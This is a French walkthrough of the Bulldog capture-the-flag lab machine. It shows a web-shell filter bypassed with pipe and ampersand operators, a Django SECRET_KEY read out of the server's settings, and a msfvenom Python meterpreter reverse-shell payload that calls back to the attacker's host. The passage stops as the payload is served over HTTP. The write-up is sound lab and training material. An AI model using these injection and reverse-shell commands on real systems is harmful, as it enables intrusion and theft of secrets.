 Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, et la vérification semble n'être réalisée que sur le premier mot / que sur la première commande fournie. Ainsi, si le point-virgule est interdit, d'autres opérateurs logiques peuvent être utilisés afin de contourner les restrictions du Web-Shell.

```console
Command : id
INVALID COMMAND. I CAUGHT YOU HACKER!

Command : ls; id
INVALID COMMAND. I CAUGHT YOU HACKER! ';' CAN BE USED TO EXECUTE MULTIPLE COMMANDS!!

Command : ls | id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Command : pwd & id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
/home/django/bulldog

Command : pwd && id
/home/django/bulldog
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Command : cat bulldog/settings.py | grep SECRET_KEY
SECRET_KEY = '%9a3ph3iwk$v*_#x4ejg8(t5(qll0fl8q8&u+o_g$yi83d*riq'
```

À présent, il s'agit d'obtenir un shell sur le serveur !

## Mise en place d'un reverse shell et accès au serveur Bulldog

Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en Python va être créé et déposé sur le serveur Bulldog. Ce bout de code va, dans un premier temps, créer une connexion sur le port 4444 entre le serveur de l'entreprise (192.168.56.102) et notre propre machine (192.168.56.101), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -o shell.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 554 bytes
Saved as: shell.py

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
